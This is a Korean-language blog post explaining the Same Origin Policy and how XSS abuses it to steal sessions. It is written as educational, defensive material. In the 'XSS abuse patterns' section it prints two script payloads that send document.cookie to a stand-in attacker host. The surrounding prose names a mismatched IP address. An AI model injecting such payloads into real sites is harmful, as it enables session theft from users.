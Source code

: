 ```yaml
---
layout: post
title: "동일출처정책(Same Origin Policy, SOP) 과 XSS이해하기"
categories: [웹 방어 기술, 웹 사양]
tags: [웹 방어 기술, 웹 사양]
toc: true
---
```


# 동일출처정책(SOP) 개요
- 동일출처정책은 웹 보안에서 아주 중요한 개념이다. 
- 중요한 개념인데 헷갈릴 때도 많기 때문제 정리해둔다. 
- 일반적으로 말해, 어떤 사이트의 자바스크립트는 동일출처인 컨텐츠에만 접근할 수 있다는 제약이다. 
- 동일출처가 아닌 다른 출처(origin)의 컨텐츠를 읽을 수 없다. 
- 동일출처란 스킴(http, https등), 호스트(example.com 과 같은 것), 포트번호(80,443등)가 동일할 때를 말한다. 
- 구체적인 예와 함께하면 이해하기 좋을 것 같다. 

# 동일출처정책이 있어서 못하는 것
- 어떤 나쁜 사이트에 의도치않게 들어간다고 해도, 그 사이트에서 내 구글이나 페이스북 어카운트 정보를 읽을 수 없다 (구글이나 페이스북은 어떤 나쁜 사이트와 다른 출처이기 때문이다). 
- 그러나 구글이나 페이스북에 XSS취약점이 있다면 얘기가 달라진다. 예를들어, 페이스북에서 공격자가 지정한 임의의 스크립트가 실행된다면, 그 스크립트는 페이스북이라는 출처에서 실행되기 때문에 페이스북의 정보에 접근할 수 있다. 

# 동일출처정책에 제한받지 않는 태그
 - `<img>`태그를 통한 이미지 삽입, `<video>`태그를 통한 미디어 삽입, `<script>`태그를 통한 외부 스크립트 포함(include)등은 동일출처정책에 제한받지 않는다. 

# XSS 악용 패턴 
## 사용자의 세션훔치기 
- XSS가 동일출처정책을 우회하는 원리를 알아보자. 
- 그렇다면 위의 시나리오에서 실제 사용자의 정보를 어떻게 공격자가 얻어낼 수 있는가를 알아보자. 
- 페이스북의 정보에 접근할 수 있는 스크립트는 어떻게 정보를 또 다른 사이트(공격자의 사이트)로 유저의 정보를 전달할 수 있는가?
- 동일출처정책에 의하면 자바스크립트로 다른 사이트로 정보를 전달하는 것도 제한되는게 아닌가? 
- 아니다. 여기가 중요한 포인트다. 동일출처정책에 의해 공격자의 사이트에서 다른 사이트의 정보를 읽을 수는 없지만, 다른 사이트에서 공격자의 사이트로 정보를 전달하는 것은 전혀 문제가 없다. 
- 다시 말하자면, 내가 마음대로 다른 사이트의 정보를 읽을 수는 없지만, 내 정보를 다른 사이트로 전송하는 것은 된다는 것이다. 
- XSS가 실제로 악용되는 패턴을 보자. XSS취약점이 있는 사이트에 다음과 같은 스크립트를 삽입한다고 해보자. 

### 패턴 1
```js
<script>
new Image().src="http://trap.hacker.com/cookie_collector.php?sessionid="+document.cookie;
</script>
```
- 이미지는 동일출처정책에 제한받지 않기 때문에 192.168.149.128서버에 취약한 사이트의 쿠키정보가 전송되게 된다. 

### 패턴2
또는, 다음과 같은 것도 생각할 수 있겠다. 페이지의 URL자체를 공격자의 사이트에 cookie값을 전송하는 URL로 변경하는 것이다. 

```
<script>
location.href="http://trap.hacker.com/cookie_collector.php?sessionid="+document.cookie;
</script>
```

## 무단활동수행(CSRF)
- 세션쿠키등에 httpOnly 속성이 설정되어 있다면 자바스크립트로 쿠키값에 접근할 수 없다. 
- 하지만 무단으로 특정 중요 처리를 하도록 만들수는 있다. (CSRF공격)

## 피싱
- 특정 HTML 폼을 만들어 거기에 중요정보를 입력하도록 만들어 중요한 정보를 빼내는 수법이다. 


## 키로거로 키 입력 캡쳐 
- 사용자의 세션을 훔치는 방법과 마찬가지로 XSS가 존재하는 페이지에서 사용자의 입력을 공격자의 서버로 전송하는 기법이다. 

# 참고 링크
- https://portswigger.net/web-security/cors/same-origin-policy
- https://portswigger.net/web-security/cross-site-scripting
- https://pentest-tools.com/blog/xss-attacks-practical-scenarios